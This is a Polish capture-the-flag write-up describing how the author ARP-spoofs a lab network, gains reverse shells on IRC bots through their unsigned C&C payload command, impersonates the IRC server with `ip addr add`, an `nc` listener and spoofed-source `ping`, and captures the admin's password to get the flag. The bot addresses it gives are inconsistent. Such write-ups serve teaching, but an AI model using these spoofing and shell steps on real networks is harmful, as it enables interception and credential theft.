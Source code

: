 # Alt-f4 task writeup [Polish]

**NOTE: This was written just for my friends and I didn't have time to polish it, so it is in polish language :P**

### TLDR task info
TLDR:
Nasz ip: 172.30.0.14 (w vpn)

Sa dwa routery:
- 172.30.0.1 - tu my jestesmy podlaczeni oraz bot imp3ac33 czy jakos tak (172.30.0.2 chyba)
- 172.30.20.1 - ten router jest podlaczony do 172.30.0.1 oraz ma w swojej sieci: serwer irca (172.30.20.10), admina irca - lordbaal (172.30.20.2), ktory w /whois widac ze siedzi na kanale #sanctum (gdzie jest flaga) oraz bota impac66 ktory ma ip 172.30.20.3

### Solution
1. Robimyarp spoofing na 172.30.0.1 oraz 172.30.0.2 - bo tylko te hosty widac w naszej sieci (na przyklad przez ettercap)
- dzieki temu wiemy ze istnieje serwer irca na 172.30.20.10, bo bot 172.30.0.2 sie z nim laczy
- nie znamy hasla do irca, ale przez to ze robimy arp spoofing bot 172.30.0.2 rozlacza sie z irca i probuje polaczyc sie ponownie wysylajac haslo `underling`
- na ircu widzimy komunikacje C&C: to znnaczy admin - lordbaal wysyla komendy do impac66 i imp3ac33 - w ten sposob: `+impac66, payload http://172.30.0.2:8000/stats` - i jednoczesnie ten lordbaal hostuje u siebie serwer http gdzie hostuje dla nich payloady
- nie ma zadnych ACL/podpisow payloadow wiec mozemy zrobic reverse shella z obu botow na siebie
- na botach nie ma nic ciekawego

2. Na botach mamy dostep do konfiguracji sieci przez polecenie `ip`

3. Robimy 2 reverse shelle na impac66 (172.30.20.2), dodajemy sobie adres ip irca do interfejsu sieciowego przez `ip addr add 172.30.20.10 dev eth0`; w drugim shellu odpalamy netcata `nc -l -vvv -p 6667` - chcemy "byc serwerem irca" i zrobic zeby baal sie z nami polaczyl

4. Na te chwile mamy taki sam adres ip jak serwer irca ale nikt w sieci o tym nie wie, a w szczegolnosci nie baal

5. impac66 rozlaczy sie wtedy sam z irca, bo wysyla wiadomosci sam do siebie - wznowi wtedy polaczenie do siebie do irca wiec w drugim shellu z nc zobaczymy to polaczenie, musimy je zabic z pierszego shella przez `kill -9 $(pidof nc)` i odpalic na nowo nc

6. Zeby baal laczyl sie do nas a nie do prawdziwego shella robimy arp spoofing poprzez ping: `ping -c 10 -I 172.30.20.10 172.30.20.2` - uwaga `-c 10` dajemy po to zeby wyslac 10 pakietow, a `-I 172.30.20.10` zeby ping wysylal pakiety ICMP z tego adresu ip (podszywamy sie pod serwer irca - zatruwamy tablice arp u baala)

7. jak dobrze trafimy (ewentualnie zabijajac nc jeszcze pare razy i odpalajac na nowo) to baal polaczy sie z nami i wysle nam swoje "uprzywilejowane" haslo irca

8. tutaj usuwamy z impac66 (172.30.20.2) dodatkowy adres ip (172.30.20.10) - przestajemy sie podszywac pod irca i od siebie wchodzimy na serwer irca z nowym haslem (od baala) i wbijamy na #sanctum i mamy flage
